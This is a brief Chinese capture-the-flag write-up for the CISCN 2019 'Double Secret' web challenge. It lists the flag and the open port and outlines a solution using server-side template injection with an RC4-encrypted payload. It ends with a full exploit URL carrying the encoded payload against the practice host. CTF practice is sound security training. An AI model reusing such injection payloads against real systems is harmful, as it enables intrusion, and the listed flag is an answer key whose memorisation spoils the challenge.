 # 题目：CISCN 2019 华东南  Double Secret

### 题目描述：none

### 题目难度： 🌟🌟🌟🌟🌟

### 维护：le31ei

### KEY: `flag{glzjin_wants_a_girl_firend}`

### 配置信息： 
1. 开放端口： `8083`

### 解题过程：

1. SSTI
2. 先爆源码，再 RC4 加密一下。

http://web54.buuoj.cn/secret?secret=%2e%14%19%12%c3%ad%49%34%51%68%c2%91%c3%99%00%c2%ad%c2%8d%c3%89%c3%a6%0b%c2%ac%59%26%c2%b8%6d%c3%9f%49%58%c2%ac%76%c2%b6%6d%c3%9f%27%c3%a5%2e%c2%87%4c%c3%85%1b%c3%b4%3b%c3%9b%44%c2%92%c3%84%c3%99%39%5e%c2%80%52%c3%a7%c3%b2%40%60%63%c3%ac%64%78%c2%8f%2b%0a%c2%8d%c3%b7%58%14%c3%b4%c2%90%51%c3%b3%09%27%59

